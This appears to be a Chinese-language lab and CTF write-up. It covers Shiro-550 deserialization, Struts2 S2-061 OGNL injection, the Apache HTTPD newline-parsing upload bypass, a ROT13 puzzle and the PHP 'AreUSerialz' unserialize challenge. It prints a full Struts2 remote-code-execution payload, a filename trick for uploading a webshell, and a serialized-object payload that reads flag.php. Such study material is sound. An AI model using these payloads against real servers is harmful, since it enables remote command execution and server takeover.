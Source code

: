 ## Shiro 反序列化漏洞（CVE-2016-4437）

<img src="./images/image-20240423193256266.png" alt="image-20240423193256266" style="zoom:33%;" />

抓包后看到很明显的shiro550的特征

![image-20240423193237559](./images/image-20240423193237559.png)

这里有个工具shiro_attack可以利用它来进行一些操作<img src="./images/image-20240423194132673.png" alt="image-20240423194132673" style="zoom:50%;" />

检测到后可以进行传🐎![image-20240423194752758](./images/image-20240423194752758.png)

<img src="./images/image-20240423194821660.png" alt="image-20240423194821660" style="zoom:50%;" />

这里显示连接成功

## Struts2 S2-061 远程代码执行漏洞 （CVE-2020-17530）

使用某些tag等情况下可能存在OGNL表达式注入漏洞，从而造成远程代码执行,可能照成控制服务器等危害。S2-061是对S2-059沙盒进行的绕过
**影响范围**：Apache Struts 2.0.0-2.5.25

<img src="./images/image-20240427152725880.png" alt="image-20240427152725880" style="zoom: 67%;" />

检测漏洞是否存在 payload:?id=%25%7b+%27test%27+%2b+(11+%2b+11).toString()%7d



<img src="./images/image-20240427155510112.png" alt="image-20240427155510112" style="zoom: 50%;" />

用st2工具利用<img src="./images/image-20240427165352987.png" alt="image-20240427165352987" style="zoom: 50%;" />

或者可以通过bp利用，先把提交方式改为Post

```
------WebKitFormBoundaryl7d1B1aGsV2wcZwF Content-Disposition: form-data; name="id" %{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))} ------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

![image-20240427170544983](./images/image-20240427170544983.png)

## Apache HTTPD 换行解析漏洞（CVE-2017-15715）

**HTTPD**的版本**2.4.0~2.4.29**都有可能存在该漏洞，在解析PHP时，**xx.php\x0A**将被按照PHP后缀进行解析，导致可以绕过一些服务器的安全策略。

<img src="./images/image-20240427172935055.png" alt="image-20240427172935055" style="zoom: 50%;" />

上传一个🐎进行抓包<img src="./images/image-20240427173011271.png" alt="image-20240427173011271" style="zoom: 50%;" />

在文件名后加入加入0a

![image-20240427175102162](./images/image-20240427175102162.png)

提交后访问刚才上传的文件

![image-20240427174928606](./images/image-20240427174928606.png)

拿蚁剑进行连接，成功拿下

<img src="./images/image-20240427175247749.png" alt="image-20240427175247749" style="zoom:50%;" />

## 回转十三位

![image-20240428134700073](./images/image-20240428134700073.png)

得到base64的加密，解密后发现不太对<img src="./images/image-20240428134739524.png" alt="image-20240428134739524" style="zoom: 67%;" />

题目说是十三位，应该是rot13解密（[凯撒加密](https://baike.baidu.com/item/凯撒加密/0?fromModule=lemma_inlink)的一种变体）![image-20240428135829683](./images/image-20240428135829683.png)

得到base64后在进行解密<img src="./images/image-20240428140029443.png" alt="image-20240428140029443" style="zoom:50%;" />

## [网鼎杯 2020 青龙组]AreUSerialz

```
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

}
```

通过代码一眼看到了含flag的文件名，往下看发现了read中有读取文件的函数，也就是说要调用read来读取flag，而要调用read往上看，发现process有个op变量可以触发read，当op=1时触发write，当op=2时则触发read，于是开始构造

```
<?php
class FileHandler{
	public $op = 2;
	public $filename = "php://filter/read=convert.base64-encode/resource=flag.php";（因为是php文件所有用伪协议去读）
	public $content;
}
$obj = new FileHandler();
echo serialize($obj);
?>
```

![image-20240428144613235](./images/image-20240428144613235.png)

上面提示是通过str进行传参于是构造payload：

```
/?str=O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";s:7:"content";N;}
```

![image-20240428144847451](./images/image-20240428144847451.png)

解码后得到flag<img src="./images/image-20240428144925390.png" alt="image-20240428144925390" style="zoom: 80%;" />

